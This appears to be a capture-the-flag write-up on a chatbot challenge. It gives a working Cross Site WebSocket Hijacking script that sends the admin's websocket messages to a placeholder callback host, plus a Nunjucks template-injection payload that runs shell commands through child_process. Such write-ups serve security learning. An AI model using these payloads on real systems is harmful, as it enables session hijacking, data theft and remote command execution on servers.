 Find websocket does not contain CSRF token and the session cookie is SameSite=None.

Meaning if we can force the admin to visit our website, we can exploit the web socket to preform 
a Cross Site WebSocket Hijacking attack (CSWSH)

The user must notice the chatbot accepts and visits URLs sent to it.

Create a custom server with the following script to perform the CSWSH:

```html
<script>
var ws = new WebSocket("wss://challenge-ip/chat");

ws.onopen = function() { 
	ws.send("help"); 
}; 

ws.onmessage = function(event) { 
	fetch('https://CALLBACK-URL/', {method: 'POST', mode: 'no-cors', body: event.data}); 
};
</script>
```

Now we can send commands as the admin user, using the `help` command we can find it also accepts 
a `upload` command with the filecontents next to it:

`upload file contents here`

This is vulnerable to SSTI and since the following payload works `{{7*7}}` and 
the application is NodeJS (X-Powered-By: Express) we can guess Nunjucks

Final payload:

```
upload {{range.constructor("return global.process.mainModule.require('child_process').execSync('cat /flag.txt')")()}}
```
